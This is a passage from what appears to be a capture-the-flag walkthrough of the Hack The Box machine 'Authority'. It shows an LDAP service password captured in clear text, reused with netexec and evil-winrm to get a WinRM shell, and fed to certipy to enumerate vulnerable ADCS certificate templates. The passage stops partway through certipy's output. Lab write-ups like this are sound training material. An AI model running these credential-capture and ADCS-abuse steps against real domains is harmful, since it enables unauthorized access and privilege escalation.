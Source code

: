 Once we configure LDAP url to our interface and click on test LDAP profile, we can get the LDAP credentials in clear text.

```bash
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

using netexec winrm we can test the credentials and we can see that we can get shell acess as svc_ldap.

```bash
$netexec winrm 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
WINRM       10.10.11.222    5985   AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
WINRM       10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

```
### Evil-winrm

We got shell as svs_ldap using evil-winrm.

```bash
$evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
*Evil-WinRM* PS C:\Users\svc_ldap>
```

## Shell as Administrator

### ADCS Exploitation

We will use `certipy` on our attacker machine to enumerate ADCS. We can use find command to identify templates and use -vunlerable option to only show the vulnerables ones.

```bash
certipy find -dc-ip 10.10.11.222  -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'AUTHORITY-CA' via CSRA
[!] Got error while trying to get CA configuration for 'AUTHORITY-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'AUTHORITY-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
```